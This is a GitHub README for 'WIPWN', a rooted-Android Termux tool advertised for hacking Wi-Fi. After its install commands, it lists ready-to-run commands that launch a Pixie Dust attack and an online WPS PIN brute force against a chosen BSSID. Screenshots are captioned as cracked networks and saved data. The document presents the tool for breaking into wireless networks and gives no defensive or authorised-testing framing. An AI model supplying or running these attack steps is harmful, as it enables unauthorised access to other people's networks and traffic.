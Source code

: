 # WIPWN

![Logo](assets/image.png)

### Hack wifi using Termux (rooted)
    
- [Requirements]
  - [Python](https://www.python.org)
  - [Pixiewps](https://www.kali.org/tools/pixiewps/)
  - [Wpa-supplicant](https://wiki.archlinux.org/title/wpa_supplicant)
 
### Installation :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python wpa-supplicant pixiewps iw -y
git clone https://github.com/anbuinfosec/wipwn
cd wipwn
chmod +x main.py
```

#### Help : ```sudo python main --help```
#### Example : ```sudo python main.py -i wlan0 -K```

#### Note: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
+ **Turn on Location.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- ```sudo python main.py -i wlan0 -K```
- ```bash wipwn.sh```
- - Start Pixie Dust attack on a specified BSSID:
`sudo python main.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python main.py -i wlan0 -b 50:0F:F5:B0:08:05 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

---

## Screenshots

| Banner | Cracked | Saved Data | config.txt | 
| :---: | :---: | :---: | :---: |
| ![image](https://raw.githubusercontent.com/anbuinfosec/anbuinfosec/refs/heads/main/assets/wipwn/1.jpg) | ![image](https://raw.githubusercontent.com/anbuinfosec/anbuinfosec/refs/heads/main/assets/wipwn/2.jpg) | ![image](https://raw.githubusercontent.com/anbuinfosec/anbuinfosec/refs/heads/main/assets/wipwn/3.jpg) | ![image](https://raw.githubusercontent.com/anbuinfosec/anbuinfosec/refs/heads/main/assets/wipwn/4.jpg) |


### ❤️ Thanks for stars and forks
[![Stargazers repo roster for @anbuinfosec/wipwn](https://reporoster.com/stars/dark/anbuinfosec/wipwn)](https://github.com/anbuinfosec/wipwn/stargazers)
[![Forkers repo roster for @anbuinfosec/wipwn](https://reporoster.com/forks/dark/anbuinfosec/wipwn)](https://github.com/anbuinfosec/wipwn/network/members)